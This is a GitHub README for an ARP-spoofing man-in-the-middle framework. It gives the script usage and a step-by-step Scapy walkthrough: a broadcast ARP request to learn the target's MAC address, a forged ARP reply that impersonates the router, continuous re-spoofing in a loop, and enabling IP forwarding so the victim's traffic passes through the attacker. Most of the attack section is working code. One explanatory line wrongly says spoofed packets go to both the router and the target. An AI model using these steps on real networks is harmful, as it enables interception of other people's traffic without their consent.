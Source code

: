 # ArpSpoof-MITM-Framework

## Script usage --> (attack on a network with 3 machines: router, attacker, target):

                python3 arp-mitm.py {ROUTERIP} {TARGETIP}

        [-] Attacker sends ARP request to broadcast (everyone on LAN) in order to receive a response from someone who knows
            where the target machine is located 
            
            --> This request contains the broadcast address and the
                IP address of the target machine 
            
            --> The request essentially asks everyone on the network (through the broadcast address) who has {targetIP}? 
                Hopefully a machine on the network who knows the location (MAC address of target machine) will respond with the 
                information we are looking for --> the target machines MAC address

        [-] Now that we have the MAC address of the target machine we can use it to craft a malicious packet that will tell
            the target machine that our MAC address is the same as the routers MAC address
            
            --> This will cause every outgoing packets from the target machine will be sent to both the router and the target
                machine
    
## Some useful Scapy commands:

        [-] ls(ARP) --> will list all fields required by an ARP packet
        
        [-] important fields: op, hwsrc,psrc, hwdst, pdst
        
        [-] packet = ARP(pdst='<TARGET IPADDR>') --> set pdst (destination address) to TARGETS IPADDR
        
        [-] packet.show --> show the current state of the packet being crafted
        
        [-] packet.op = 1 --> sending request --> "who has ..."
        
        [-] packet.op = 2 --> sending response

## Methodology: 

        [-] Send arp request through the broadcast MAC address, every machine on the LAN will receive 
            request and possibly send the reply
        
        [-] Impacket (manually):
            
                Getting mac address of target machine w/ spoofed ARP request :

                [-] broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') --> Broadcast Address

                [-] arp_layer = ARP(pdst='{TARGETIP}')

                [-] entire_packet = broadcast/arp_layer --> combines arp_layer and broadcast layer into packet

                [-] answer = srp(entire_packet, timeout=2, verbose=True)[0] --> sending request to broadcast

                [-] print(answer) --> will show request and response if any received

                [-] print(answer[0])

                [-] target_mac_address = answer[0][1].hwsrc --> get mac address of target                                                                                                                                                                                                                              
                [-] print(target_mac_address)

### Craftinfg Malicious packet:

            [-] We are essentially going to craft a packet that will tell the target machine that
                    the attacker machine is a router, so it sends all of its packets to the attacker machine
                
            [-] packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.0.131', psrc='192.168.0.1')
                    
                    --> psrc is address of machine we want to impersonate (router)
                    --> run `netstat -nr` in terminal to find addr of router on your network (gateway)
                
            [-] packet.show() will show the contents of our malicious packet
                
            [-] send(packet, verbose=False) --> sends malicious packet to spoof targets ARP table
            
### Arp-tables on target machine:

            [-] You can run the command `arp -a` on the target machine before sending the malicious packet, 
                    and again after sending the malicious packet to confirm if we successfully spoofed the arp
                    tables on the target machine

            [!] Script should be run in a while loop to continuosly spoof the targets arp tables since the target machine will also still 
                send the same ARP requests we are sending still

            [!] If the target machine is unable to access the internet after it has been spoofed then you may need to run this command on your 
                attacker machine to forward the packets --> echo 1 >> /proc/sys/net/ipv4/ip_forward 
